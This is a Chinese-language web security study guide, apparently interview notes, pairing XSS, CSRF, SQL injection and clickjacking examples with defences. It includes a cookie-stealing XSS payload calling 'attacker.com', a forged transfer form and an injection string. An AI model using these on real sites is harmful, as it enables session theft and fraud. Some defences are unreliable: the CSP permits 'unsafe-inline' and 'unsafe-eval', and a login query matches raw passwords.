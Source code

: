 ### Web安全
Web安全是保护Web应用免受各种攻击和威胁的重要领域。

#### 1. XSS（跨站脚本攻击）
##### 1.1 基本概念
```javascript
// 反射型XSS
// 恶意URL
https://example.com/search?q=<script>alert('XSS')</script>

// 存储型XSS
// 评论内容
<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>

// DOM型XSS
// 不安全的DOM操作
document.write(location.hash.substring(1));
```

##### 1.2 防御措施
```javascript
// 输入过滤
function sanitizeInput(input) {
  return input.replace(/[&<>"']/g, function(match) {
    const entities = {
      '&': '&amp;',
      '<': '&lt;',
      '>': '&gt;',
      '"': '&quot;',
      "'": '&#39;'
    };
    return entities[match];
  });
}

// 输出编码
function encodeOutput(output) {
  return output.replace(/[&<>"']/g, function(match) {
    const entities = {
      '&': '&amp;',
      '<': '&lt;',
      '>': '&gt;',
      '"': '&quot;',
      "'": '&#39;'
    };
    return entities[match];
  });
}

// 使用CSP
// Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval';
```

#### 2. CSRF（跨站请求伪造）
##### 2.1 基本概念
```html
<!-- 恶意表单 -->
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker">
  <input type="submit" value="Click to win!">
</form>
```

##### 2.2 防御措施
```javascript
// 使用CSRF Token
// 服务器生成Token
const csrfToken = generateToken();
res.cookie('csrf-token', csrfToken);

// 客户端发送Token
fetch('/api/transfer', {
  method: 'POST',
  headers: {
    'X-CSRF-Token': document.cookie.match(/csrf-token=([^;]+)/)[1]
  },
  body: JSON.stringify(data)
});

// 验证Token
app.use((req, res, next) => {
  const token = req.headers['x-csrf-token'];
  if (token !== req.cookies['csrf-token']) {
    return res.status(403).send('Invalid CSRF token');
  }
  next();
});
```

#### 3. SQL注入
##### 3.1 基本概念
```sql
-- 恶意输入
' OR '1'='1

-- 注入查询
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1'
```

##### 3.2 防御措施
```javascript
// 使用参数化查询
const query = 'SELECT * FROM users WHERE username = ? AND password = ?';
db.query(query, [username, password]);

// 使用ORM
const user = await User.findOne({
  where: {
    username: username,
    password: password
  }
});
```

#### 4. 点击劫持
##### 4.1 基本概念
```html
<!-- 恶意iframe -->
<iframe src="https://bank.com" style="opacity: 0.1; position: absolute; top: 0; left: 0; width: 100%; height: 100%;"></iframe>
```

##### 4.2 防御措施
```javascript
// 使用X-Frame-Options
res.setHeader('X-Frame-Options', 'DENY');

// 使用CSP
res.setHeader('Content-Security-Policy', "frame-ancestors 'none'");
```

#### 5. 密码安全
##### 5.1 基本概念
```javascript
// 密码哈希
const bcrypt = require('bcrypt');
const saltRounds = 10;

// 生成哈希
bcrypt.hash(password, saltRounds, function(err, hash) {
  // 存储hash
});

// 验证密码
bcrypt.compare(password, hash, function(err, result) {
  // 验证结果
});
```

##### 5.2 最佳实践
```javascript
// 密码策略
const passwordPolicy = {
  minLength: 8,
  requireUppercase: true,
  requireLowercase: true,
  requireNumbers: true,
  requireSpecialChars: true
};

// 密码验证
function validatePassword(password) {
  return (
    password.length >= passwordPolicy.minLength &&
    /[A-Z]/.test(password) &&
    /[a-z]/.test(password) &&
    /[0-9]/.test(password) &&
    /[!@#$%^&*]/.test(password)
  );
}
```

#### 6. 最佳实践
1. 使用HTTPS
2. 实现CSP
3. 设置安全头
4. 使用参数化查询
5. 实现CSRF保护
6. 密码加密存储
7. 输入验证
8. 输出编码
9. 会话管理
10. 错误处理

#### 7. 常见面试题
1. **常见Web攻击类型**
   - XSS
   - CSRF
   - SQL注入
   - 点击劫持

2. **如何防御XSS攻击**
   - 输入过滤
   - 输出编码
   - CSP配置
   - 安全头设置

3. **如何保证密码安全**
   - 密码哈希
   - 加盐处理
   - 密码策略
   - 安全存储 